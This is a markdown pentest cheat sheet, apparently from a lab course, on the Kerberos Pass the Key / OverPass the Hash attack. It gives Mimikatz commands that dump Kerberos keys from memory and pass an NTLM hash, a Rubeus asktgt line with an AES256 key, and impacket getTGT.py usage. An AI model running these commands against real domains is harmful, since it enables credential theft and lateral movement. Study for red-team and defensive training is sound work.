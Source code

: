 # Pass the Key or OverPass the Hash 
- https://lisandre.com/archives/14788
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key
- https://www.hackingarticles.in/lateral-movement-over-pass-the-hash/
- https://www.thehacker.recipes/ad/movement/kerberos/ptk

The traditional Pass the Hash (PtH) technique involves reusing an NTLM password hash that doesn't touch Kerberos. The Pass the Key or OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full Ticket-Granting-Ticket (TGT). This technique was developed by Benjamin Delpy and Skip Duckwall in their presentation Abusing Microsoft Kerberos - Sorry you guys don't get it. Also Will Schroeder adapted their project to create the Rubeus tool.

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.

## Mimikatz - Extract Kerberos Keys
```
> mimikatz.exe
> privilege::debug
> sekurlsa::ekeys
```

Now that we have access to the AES256_HMAC and RC4_HMAC keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.

### Mimikatz - Pass the Key or OverPass the Hash
```
> mimikatz.exe
> privilege::debug
> sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.

To forge a ticket using Rubeus, we can use the module asktgt with the username, domain, and hash which can be /rc4, /aes128, /aes256, or /des. In the following example, we use the aes256 hash from the information we collect using Mimikatz sekurlsa::ekeys.

## Rubeus - Pass the Key or OverPass the Hash
```
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /nowrap
```

`Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.`


`Note: Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."`

## Remotely
I wish to execute this attack remotely then use impacket python script gettgt.py which will use a password, hash or aesKey, it will request a TGT and save it as ccache.

```
# with an NT hash (overpass-the-hash)
$ getTGT.py -dc-ip <IP> -hashes :<NTLM hash> <DOMAIN>/<USER>

# with an AES (128 or 256 bits) key (pass-the-key)
$ getTGT.py -dc-ip <IP> -aesKey'<aes Key>' <DOMAIN>/<USERNAME>@<IP>
```